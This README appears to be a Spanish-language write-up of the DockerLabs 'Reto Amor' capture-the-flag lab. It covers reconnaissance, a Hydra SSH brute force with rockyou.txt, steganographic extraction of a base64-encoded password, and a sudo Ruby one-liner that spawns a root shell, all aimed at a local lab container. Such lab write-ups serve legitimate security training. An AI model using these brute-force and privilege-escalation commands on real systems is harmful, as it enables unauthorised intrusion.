


**Mayor DIEGO A. ESMERAL M.**


# 🧪 Reto Amor - DockerLabs

Este repositorio documenta el desarrollo completo del laboratorio **Reto Amor** de la plataforma [DockerLabs.es](https://dockerlabs.es/), nivel **Fácil**. El objetivo fue desplegar una máquina vulnerable en Docker, realizar tareas de reconocimiento, explotación y escalamiento de privilegios mediante herramientas de hacking ético.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 📦 Requisitos Previos

- Kali Linux (actualizado)
- Docker instalado: `sudo apt install docker.io`
- Carpeta `amor` transferida al entorno Kali mediante `scp`.

-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🔧 Herramientas Empleadas

| HERRAMIENTA | DEFINICION | FUNCIONALIDAD | CASOS DE USO |
|------------|------------|---------------|--------------|
| **DOCKER** | Plataforma de contenedores para ejecutar aplicaciones en entornos aislados. | Simula entornos virtuales ligeros. | Laboratorios, CI/CD, microservicios. |
| **SCP** | Copia segura de archivos entre máquinas mediante SSH. | Transferencia recursiva de carpetas. | Envío de archivos/scripts entre hosts. |
| **NETDISCOVER** | Herramienta ARP para descubrir IPs activas. | Muestra IP, MAC y fabricante. | Reconocimiento de red local. |
| **NMAP** | Escáner de puertos y servicios. | Escaneo completo de red y servicios. | Pentesting, auditoría, fingerprinting. |
| **GOBUSTER** | Fuerza bruta de directorios web. | Descubre rutas y archivos ocultos. | Enumeración web ofensiva. |
| **HYDRA** | Herramienta de cracking para servicios remotos que permite ataques de fuerza bruta con múltiples protocolos. | Automatiza intentos de autenticación contra servicios como SSH, FTP, HTTP, RDP, etc. | Test de contraseñas débiles, auditoría de accesos, ejercicios de Red Team. |
| **STEGHIDE** | Esteganografía en imágenes/audio. | Extrae/oculta archivos en JPG/WAV. | CTF, forense, comunicaciones ocultas. |
| **BASE64** | Codificación binaria a texto. | Decodifica datos encubiertos. | Mensajes ocultos, manipulación de datos. |

-------------------------------------------------------------------------------------------------------------------------------------------------------------------


## 🛠️ Desglose de Comandos Utilizados


# 1. Transferir carpeta

```bash
scp -r amor kali@192.168.1.12:/home/kali/Documents/
```

# 2. Instalar Docker (si aplica)

```bash
sudo apt install docker.io
```

# 3. Desplegar máquina

```bash
cd Documents/amor
chmod +x auto_deploy.sh
./auto_deploy.sh amor.tar
```


# 4. Obtener interfaz de red

```bash
ip add
```

# 5. Escaneo de red en docker0

```bash
sudo netdiscover -i docker0 -r 172.17.0.0/24
```

# 6. Escanear puertos abiertos

```bash
sudo nmap --min-rate 5000 -p- -sS -sV 172.17.0.2
```
# 7. Fuzzing web

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

# 8. Fuerza bruta SSH


```bash
hydra -l carlota -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 10
```

# 9. Acceso por SSH

```bash
ssh carlota@172.17.0.2
```
# 10. Buscar imagen

```bash
cd /carlota/Desktop/fotos/vacaciones
```

# 11. Descargar imagen a Kali

```bash
scp carlota@172.17.0.2:/home/carlota/Desktop/fotos/vacaciones/imagen.jpg /home/kali/Documents/amor
```


# 12. Extraer contenido oculto



```bash
steghide extract -sf imagen.jpg
```
# 13. Decodificar mensaje oculto

```bash
echo "ZXNsYWNhc2FkZXBpbnlwb24=" | base64 -d; echo
```

# 14. Escalada de privilegios

```bash
su oscar
sudo -l
sudo /usr/bin/ruby -e 'exec "/bin/bash"'
```

-----------------------------------------------------------------------------------------------------------------------------------------------------------------

## 🧠 Diagrama de flujo



-------------------------------------------------------------------------------------------------------------------------------------------------------------------

## 💬 Resultado Final

Al finalizar el laboratorio se logra:

- Identificar servicios expuestos (22, 80).
- Obtener acceso SSH por fuerza bruta.
- Detectar archivo con datos esteganográficos.
- Decodificar contraseña y escalar privilegios a root.


